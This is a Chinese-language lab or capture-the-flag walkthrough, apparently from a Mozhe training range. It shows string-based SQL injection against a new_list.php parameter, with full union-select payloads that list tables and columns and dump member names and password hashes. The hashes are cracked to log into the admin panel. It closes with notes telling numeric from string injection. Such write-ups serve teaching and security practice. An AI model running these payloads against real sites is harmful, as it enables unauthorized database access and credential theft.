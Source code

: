 ![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757382265322-f87ad678-da87-4fb1-a4bb-49a20ea741d0.png)

查询表名：

```plain
http://124.70.64.48:46754/new_list.php?id=tingji' union select 1,(select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='mozhe_discuz_stormgroup'),3,4--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757382553932-c39181cf-7cee-4621-b649-90b323235bab.png)

查询字段名：

```plain
http://124.70.64.48:46754/new_list.php?id=tingji' union select 1,(select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_SCHEMA='mozhe_discuz_stormgroup' and TABLE_NAME='stormgroup_member'),3,4--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757382670373-ff1c5490-b035-4f30-827b-2dc888a2f5b8.png)

查询具体内容：

```plain
http://124.70.64.48:46754/new_list.php?id=tingji' union select 1,(select group_concat(id,name,password,status) from mozhe_discuz_stormgroup.stormgroup_member),3,4--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757382782867-39583cae-d72a-4f39-9d5a-87a9bda350cc.png)

有点太长了，尝试分隔开：

```plain
http://124.70.64.48:46754/new_list.php?id=tingji' union select 1,group_concat(id,0x5c,name),group_concat(password,0x5c,status),4 from mozhe_discuz_stormgroup.stormgroup_member--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757383021853-a7748abe-86b4-4dcc-aacb-24b1a400294a.png)

选择`status=1`的密码进行md5解密：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757383096567-194a0860-16f2-4bf6-afcd-d75f8f74317a.png)

输入账号密码：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757383134153-3933efec-06ed-44d2-a0c9-3c3e980bb93a.png)

成功进入后台，取得KEY：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757383150225-3c764571-1592-4d5f-8e01-ef1880a4ec41.png)

> 关于数字型SQL注入和字符型SQL注入的区别，最显著的应该是数字型不需要引号来闭合。
>
> 数字型SQL的注入点类似于`?id=1`，其背后的SQL语句类似于`select * from users where id = 1`。在测试时满足以下三点，则说明存在数字型SQL注入：
>
> + `?id=1'`页面报错或者空白
> + `?id=1 and 1=1`页面与`?id=1`显示一致
> + `?id=1 and 1=2`页面报错或者空白
>
> 字符型SQL的注入点类似于`?id=tingjitongzhi`，其背后的SQL语句类似于`select * from users where id = 'tingjitongzhi'`。在测试时满足以下三点，则说明存在字符型SQL注入（在这之前可能还要单双引号测试闭合方式）：
>
> + `?id=tingjitongzhi'`页面报错
> + `?id=tingjitongzhi' and '1'='1`页面正常返回
> + `?id=tingjitongzhi' and '1'='2`页面报错
>
